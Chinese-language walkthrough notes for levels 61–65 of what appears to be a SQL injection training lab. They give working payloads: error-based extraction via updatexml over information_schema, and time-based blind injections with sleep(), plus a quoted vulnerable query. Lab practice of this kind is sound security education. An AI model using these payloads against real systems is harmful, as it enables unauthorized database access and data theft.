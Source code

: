 # lv61
- 还是报错注入
> 0')) or updatexml(1,concat(1,(select group_concat(schema_name) from information_schema.schemata limit 0,1)),1)--+
# lv62
- 可以时间盲注
> 1') and sleep(5)--+
# lv63
- 时间盲注
> 1' and sleep(5)--+
# lv64
- 时间盲注
> 1)) and sleep(5)--+
# lv65
- 时间盲注，查看源码
```
$id = '"'.$id.'"';
			// Querry DB to get the correct output
			$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1";
```
- 按理来说闭合方式应该为'"'),但是实际测试为")
> 1") and sleep(5)--+